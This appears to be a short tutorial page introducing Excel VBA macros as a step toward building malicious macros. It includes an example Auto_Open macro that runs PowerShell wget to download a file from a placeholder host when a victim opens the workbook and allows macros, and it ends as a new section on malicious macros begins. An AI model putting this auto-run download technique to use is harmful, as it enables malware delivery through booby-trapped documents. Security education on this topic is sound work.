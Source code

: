 We need Microsoft Office version of Excel in order to be able to use Macros.

#### Macros are a set of programming instructions written in Visual Basic, which can automate repetitive and standardized process in Excel and other Microsoft Applications like Access, Powerpoint, Word and Outlook
- An excel macro is an action or set of actions that can be recorded, named, saved and executed as many times required and whenever desired.
- By using macros, we are able to automate repetitive tasks associated with data manipulation and data reporting.


#### Navigate to Macros in Excel
```
View - > Macros - > <Enter Name of Macro you want to create> - > Create - > <Write your VBA script to be executed>
```

Example of a VBA macro
```VBA
Sub Main()
	PID=Shell("powershell.exe -c wget http://<ip>:port/file.txt -o new.txt",vbNormalFocus)
End Sub

Sub Auto_Open()
	Main
End Sub
```
- This macro will be executed after you open a file and "mistakenly" click on "Allow all Macros"
- The `Auto_Open()` feature automatically executes the macros

## Malicious macros in Excel
- Now that we are familiar with macros and auto open feature within Office Products, we can dive deep into generating our malicious macros.




















